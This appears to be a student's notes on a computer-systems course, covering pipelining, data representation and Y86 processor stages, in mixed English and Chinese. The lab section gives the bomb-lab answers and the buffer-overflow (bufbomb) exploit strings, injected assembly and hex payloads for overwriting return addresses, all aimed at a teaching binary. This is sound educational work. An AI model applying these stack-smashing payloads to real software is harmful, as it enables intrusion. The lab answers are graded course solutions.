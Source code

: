 #### 1.9 Important Themes

- Concurrency and Parrallesim
Hyperthreading, sometimes calledsimultaneous multi-threading, is a technique that allows a single CPU to execute multiple flows of control.

Thread-Level Concurrency: multi-core
Instruction-Level Concurrency: pipeline
SIMD Concurrency:special IO hardware

A pipeline can overlap phases the execution of an instruction with previous instructions.[1]
Three controls hazards: Read after write(RAW, so are the next), WAW, WAR
[1] http://www.cse.unsw.edu.au/~cs9244/06/seminars/01-gvdl.pdf

- Abstractions for computers
    files
	process
	virtual memory
	virtual machine
	
#### 1.10 Summary

### CH2. Representing and Manipulating Information
- data storage
gcc -m32 prog.c
gcc -m64 prog.c
Later in other chapters: disassembler
- you can show ascii table in shell: man ascii
Data Types
	Integer Representations

- Floating Point


#### CH 4 Processor Architecture

RISC处理器
CPU
	arm mips
硬件支持
	Logic Gates
	multiplexor
	register file
	memory
#### 4.3 Sequential Y86-64 Implementation
SEQ
	1.Fetch
	2.Decode
	3.Execute
	4.Memory
	5.Write back
	6.PC Update
	解析单指令,trace其过程的语法:
		icode:ifunc M1[PC],
		其中icode:ifunc是一个字节;M1的下标1表示取一个字节
		valA,valB,valC,valM:对应register file的端口
		PC:对应一个寄存器
	SEQ
	SEQ+

![CPU flow](fig1.png)
![CPU flow](fig2.png)

HCL

----------------------------------------------------------

#### Lab

#### Lab 2
Solutions:
Border relations with Canada have never been better.
1 2 4 8 16 32
1 311或其他
4 389
7 0
IONEFG (flyers)
4 3 2 1 6 5

Intel指令集
	movslq
	https://blog.csdn.net/qq_38712943/article/details/81358799
info r
p /x *0x402470 + 8
b phase_4
disas phase_4
pmap
pvector
GDB调试技巧
	https://blog.csdn.net/transmaple/article/details/48421891

b *0x0000000000400fdf
简书: https://www.jianshu.com/p/33eb51b2024e
Postscript file: GDB: Quick reference

打印寄存器
    p $rax
注意:
	mov 0x20(%rsp),%rbx 代表赋地址
	lea 0x20(%rsp),%rbx 代表赋值
	
#### lab 3

不可修改的register: rip(除了ret)
https://www.cnblogs.com/aliflycoris/p/5746143.html
https://www.jianshu.com/p/dc41c84cef17
https://www.cnblogs.com/yhjoker/p/7623950.html

三个与栈和下一条指令有关的指令
	call=push rip; jmp 0x____
	leave 恢复保存的rbp,rsp,即 movl rbp, rsp; pop rbp
	ret = pop rip
注意事项:
	mov 0x4, %eax #move value of memory[0x4] to eax
	mov $0x4, %eax #move 0x4 to eax

~~~
按照userid=novik实验: 
./bufbomb -u novik
    0x08048c18 smoke
>>>> smoke.txt
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
    00 00 00 00 18 8c 04 08

0x08048c42 fizz
>>>> fizz.txt
    -u novik
	cookie 0x2de1951f
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
    00 00 00 00 42 8c 04 08 00 00
	00 00 1f 95 e1 2d
>>>> bang.txt
    -u novik
	0x55683658
>>>> bang.S
movl $0x2de1951f, 0x804d100
movl 0x804d100, %eax
movl %eax, 4(%esp)
push $0x08048c9d
ret
->
c7 05 00 d1 04 08 1f 
95 e1 2d 
a1 00 d1 04 08       
89 44 24 04          
68 9d 8c 04 08       
c3
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
58 36 68 55
>>>> dynamite.txt
buf 0x55683658
ret 0x08048dbe
cookie 0x2de1951f
movl $0x2de1951f, %eax
movl $0x556836b0, %ebp
push $0x08048dbe
ret
>>>> shell
cat dynamite.txt | ./hex2raw | ./bufbomb -u novik
